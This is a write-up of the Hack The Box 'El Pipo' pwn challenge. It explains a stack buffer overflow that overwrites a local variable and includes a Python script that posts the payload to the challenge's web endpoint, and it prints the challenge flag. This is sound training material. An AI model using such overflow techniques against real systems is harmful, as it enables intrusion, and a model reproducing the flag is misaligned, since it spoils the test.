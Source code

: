 ```yaml
---
title: "El Pipo 👻 - Buffer Overflow Exploit Writeup"
tags: [HTB, binary exploitation, stack overflow, pwn]
---
```


# El Pipo 👻

![Category](https://img.shields.io/badge/category-Pwn-orange)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Platform](https://img.shields.io/badge/platform-Linux-blue)
![HTB](https://img.shields.io/badge/HTB-Challenge-green)

> An ancient spirit, El Pipo, has taken control of this place. Face your fears and try to drive it away with your most vicious scream!

El Pipo, a not-so-scary ghost, dares you to make him scream. Can you break the silence and reveal the hidden flag?

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Finding the Offset 🎯](#finding-the-offset-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We begin with a `checksec` on the binary:

![Checksec](https://github.com/user-attachments/assets/809aea46-ce9d-456a-a32d-585c14693ae2)

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

## Program Behavior 📟

When we run the binary, it reads input via `read()` and checks a variable:

![Ghidra main](https://github.com/user-attachments/assets/18aaa356-87c8-4ab0-a1cf-a0f73f8523f8)

```c
char local_9 = 1;
read(0, &buffer, 0x40);
if (local_9 == 1) {
    puts("Not scary enough.. Boo! :(");
} else {
    read_flag();
}
```

The flag is only printed if `local_9` is overwritten with any value ≠ 1.

## Reverse Engineering 🔍

In Ghidra or GDB disassembly, we observe:
- The buffer starts at `[rbp - 0x30]`
- `local_9` is located at `[rbp - 0x1]`
- `read()` reads **64 bytes** into a **48-byte** buffer

This allows us to overflow and overwrite `local_9`.

## Finding the Offset 🎯

We need to find the exact number of bytes required to reach and overwrite `local_9`.

### Approach 1: Manual Stack Analysis

From disassembly:
- Buffer starts at `[rbp - 0x30]`
- `local_9` is at `[rbp - 0x1]`

![GDB debug](https://github.com/user-attachments/assets/d0bd9343-a562-470e-9828-601644650e17)

![Distance](https://github.com/user-attachments/assets/34fad339-5dd4-4601-a508-9f21b083259a)

Distance = `0x30 - 0x1 = 0x2f = 47` bytes  
✅ **We must write 47 bytes to reach `local_9`**

### Approach 2: Using `cyclic` + pwndbg

We generate a unique cyclic pattern of 100 bytes and run the binary with it.

![Cyclic generation](https://github.com/user-attachments/assets/0be47dae-983a-4fee-82fa-160e0147c3ca)

Upon crash, we check the stack and use:

![RBP](https://github.com/user-attachments/assets/2a6cc1fd-decc-48c3-b1bf-cb65a9e85e66)

![Distance cyclic](https://github.com/user-attachments/assets/bf07a2bd-b46a-43ad-b977-99229546f73b)

```gdb
cyclic -l gaaaaaaa
Found at offset 48
```

Since the last value is written at offset 47, we know the **overwrite occurs at byte 47**.

✅ Final conclusion: 47 bytes are required to reach and overwrite `local_9`.

## Exploitation Strategy 💣

Our goal is to overwrite `local_9` with a value ≠ 1.

The value `'A'` (0x41) works perfectly.

Payload:
```python
offset = 47
payload = b"A" * offset + b"A"
```

This sets `local_9` to 0x41, bypassing the check.

But in this challenge, we don't directly interact with the binary with netcat; This is on a website:

![Website](https://github.com/user-attachments/assets/8ec42afd-90af-473d-b321-47a41df070d9)

## Full Exploit Script 🧨

```python
#!/usr/bin/env python3
import requests
import argparse

def build_payload():
    # We need 47 bytes to reach local_9
    offset = 47
    return "A" * offset + "A"

def send_payload(ip, port, payload):
    url = f"http://{ip}:{port}/process"
    data = { "userInput": payload }
    response = requests.post(url, json=data)
    return response

def main():
    parser = argparse.ArgumentParser(description="Exploit for El Pipo - HTB Web + Pwn challenge")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", help="Target port")
    args = parser.parse_args()

    payload = build_payload()
    response = send_payload(args.ip, args.port, payload)

    print("[+] Sent payload:", payload)
    print("[+] Server response:")
    print(response.text)

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

![Flag](https://github.com/user-attachments/assets/d2e8190f-fea7-4bd3-b5bc-987e1dcd784c)

```
[+] Server response:
HTB{3l_p1p0v3rfl0w_w1th_w3b}
```

We successfully reached and triggered `read_flag()`.

## Conclusion 🧾

This was a classic stack-based buffer overflow challenge:

- We used stack layout and offset calculation to find the exact overwrite point
- Exploitation succeeded by crafting a precise 47-byte payload
- A good demonstration of how buffer overflows can manipulate control flow, even without touching return addresses

🔙 [Back to Challenge Writeups](../../)
